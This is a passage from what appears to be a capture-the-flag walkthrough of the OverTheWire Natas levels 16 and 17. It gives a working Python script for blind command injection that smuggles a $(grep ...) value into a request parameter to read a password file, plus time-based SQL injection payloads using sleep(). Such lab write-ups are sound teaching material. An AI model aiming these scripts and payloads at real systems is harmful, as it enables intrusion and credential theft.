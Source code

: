 ```python
            break

print(known_password)
```
This code will print out the password for natas16 and we are done.

## natas16
Here it is similar to natas10, but more characters are restricted. If you try anything normal, it won't work. Well one more trick up our sleeves it, like natas15, check if each character comes in natas17's password or not, using `grep`. This will work since if the char is not, then it will output the dictionary list, else it will output nothing. And we are looking for the case nothing is outputted. 
<br>
This is again a brute force. This is called BLIND COMMAND INJECTION. The code which will work is-

```python
import requests
import string

url = 'http://natas16.natas.labs.overthewire.org/'
auth = ('natas16', '<password>')  # replace <password> with the actual password
characters = string.ascii_letters + string.digits
known_password = ''

session = requests.Session()
session.auth = auth

for _ in range(32):  # assuming the password is 32 characters long
	for char in characters:
		command = f'$(grep ^{known_password}{char} /etc/natas_webpass/natas17)'
		response = session.get(url, params={'needle': command}) 
		if 'April' not in response.text:  # 'April' is a word that appears in the normal output
			known_password += char
			print(known_password)
			break

print(known_password)
```
This will output the password and we are done!

## natas17
In the source code, we do not see anything being printed when the user exists or not. So what do we do?
Well let's try another form of SQLi, called Time based SQLi, where since we do not get any printed response, we can check the existance of user if time elapsed matches our input elapse time. For example-
```sql
hi" and sleep(2); # -- gives no time elapse
natas18" and sleep(2); # -- gives 2 seconds gap before going to next screen
```
We can use this to check the session time and brute force each character. The python code for this is-
```python
import requests
import string

url = 'http://natas17.natas.labs.overthewire.org/'
auth = ('natas17', '<password>')  # replace <password> with the actual password
characters = string.ascii_letters + string.digits
known_password = ''

session = requests.Session()
session.auth = auth
```